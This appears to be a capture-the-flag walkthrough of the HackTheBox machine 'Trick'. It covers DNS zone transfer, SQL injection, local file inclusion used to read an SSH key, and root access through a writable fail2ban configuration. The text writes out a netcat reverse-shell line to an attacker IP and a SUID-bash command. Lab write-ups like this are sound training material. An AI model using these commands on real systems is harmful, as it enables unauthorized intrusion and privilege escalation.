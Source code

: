 # HackThBox - Trick

## NMAP

```bash
Nmap scan report for 10.129.85.201
Host is up (0.15s latency).
Not shown: 65531 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
|_  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    nginx 1.14.2
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## PORT 80 (HTTP)

On the web page we see a bootstrap template which has nothing intersting

<img src="https://i.imgur.com/MwFbM4d.png"/>

Fuzzing for files and directories it didn't found anything as well

<img src="https://i.imgur.com/kRQgYfD.png"/>

## PORT 53 (DNS)

Having dns service running we can try to see if we can query dns records or perform dns zone transfer for that we need a domain name, we can get the domain by performing a reverse dns lookup which resolve IP to domain name

https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns

`dig -x 10.10.11.166 @10.10.11.166`

<img src="https://i.imgur.com/ba3zxyv.png"/>

Having the `trick.htb` we can add this in hosts file

<img src="https://i.imgur.com/jDSYKGt.png"/>

Now to enumerate further we can perform the dns zone transfer

<img src="https://i.imgur.com/Z3rUXsY.png"/>

This shows `root.trick.htb` subdomain but it doesn't take us anywhere, on performing zone transfer with `axfr`

<img src="https://i.imgur.com/4GZ7DZL.png"/>

We get another domain name `preprod-payroll.trick.htb`, so let's add this in hosts file as well

<img src="https://i.imgur.com/b52rmd1.png"/>

Visting this subdomain, we'll get a login page on which we can try default credentials 

<img src="https://i.imgur.com/s0rpUwi.png"/>

<img src="https://i.imgur.com/kxP8ZYp.png"/>

Which didn't worked, so next I tried sqli

<img src="https://i.imgur.com/scRFq1D.png"/>

That worked, so I tried running `sqlmap` but `time-based blind` so it's gonna take a lot of time in dumping the data

<img src="https://i.imgur.com/tyNa8sd.png"/>


## Foothold

Going back to the site we can see a GET parameter `page` fetching for pages, I tried to perform LFI on that parameter but it didn't worked

I tried running `wfuzz` against the parameter using LFI wordlist 

<img src="https://i.imgur.com/WkDekCt.png"/>

<img src="https://i.imgur.com/Sqj5dRC.png"/>

Which didn't worked but the web app had sql injection in ton of places, on viewing employee details intercepting the request, we'll get a GET parameter `id`  which also is vulnerable to sqli

<img src="https://i.imgur.com/yPxDULh.png"/>

<img src="https://i.imgur.com/0UaS1GK.png"/>

<img src="https://i.imgur.com/8HZLpuI.png"/>

It shows that it's boolean-blind as on the login page it was a time based sqli so with this we can perform LFI to read nginx vhost configuration file

<img src="https://i.imgur.com/tG0SIvk.png"/>

This shows another subdomain `preprod-marketing.trick.htb`

<img src="https://i.imgur.com/Khdf3CI.png"/>

Alternatively we can enumerate this subdomain by running wfuzz

<img src="https://i.imgur.com/7XJySOA.png"/>

<img src="https://i.imgur.com/cQwqVUW.png"/>

This loads up another site, having nothing special other than the same GET parameter, so I tried running LFI wordlist here as well

<img src="https://i.imgur.com/tFK97Q7.png"/>

<img src="https://i.imgur.com/qp24LsL.png"/>

This starts to give us some output on filterting the response

<img src="https://i.imgur.com/pVW4KjH.png"/>

We have the username `michael` , we can try to see if we can access his .ssh folder for `id_rsa`

<img src="https://i.imgur.com/KvmF2lj.png"/>

<img src="https://i.imgur.com/mfvA1DJ.png"/>

## Privilege Escalation

Running `sudo -l` to check if we can run with sudo privileges

<img src="https://i.imgur.com/JnQupEJ.png"/>

So we can restart the `fail2ban` service but we don't know exaclty what we need to edit, being in security group we can check what permissions this group has

<img src="https://i.imgur.com/mdqEqZn.png"/>

We have write access to this folder which has configuration files for fail2ban 

<img src="https://i.imgur.com/KAxu3kE.png"/>

I found an article explaining how we can abuse fail2ban config file 

https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7

For this we need to edit the `actionban` command in `iptables-multiport.conf`, so first let's copy this file in /tmp or other directory where we can edit it with a reverse shell

```bash
/usr/bin/nc 10.10.14.39 2222 -e /bin/bash
```

<img src="https://i.imgur.com/a7pYDLu.png"/>

After editing the config file, move it back to the action.d folder and restart fail2ban service

<img src="https://i.imgur.com/UVqiGM0.png"/>

Then start doing fail attempts on login, you'll get a reverse shell on your port

<img src="https://i.imgur.com/5XoSG2C.png"/>

But our reverse shell connection dies and the reason behind this is, the ban duration lasts for 10 seconds and bans the host after the 5th attempt

<img src="https://i.imgur.com/8dfOlrn.png"/>

Instead of getting a reverse shell we can just make bash a SUID with `chmod +s /bin/bash`

<img src="https://i.imgur.com/HJFuAxr.png"/>

Performing the invalid login attempts on ssh will trigger the fail2ban on the 5th invalid attempt

<img src="https://i.imgur.com/kw67ztg.png"/>

<img src="https://i.imgur.com/oqOCN4B.png"/>


## References

- https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns
- https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7
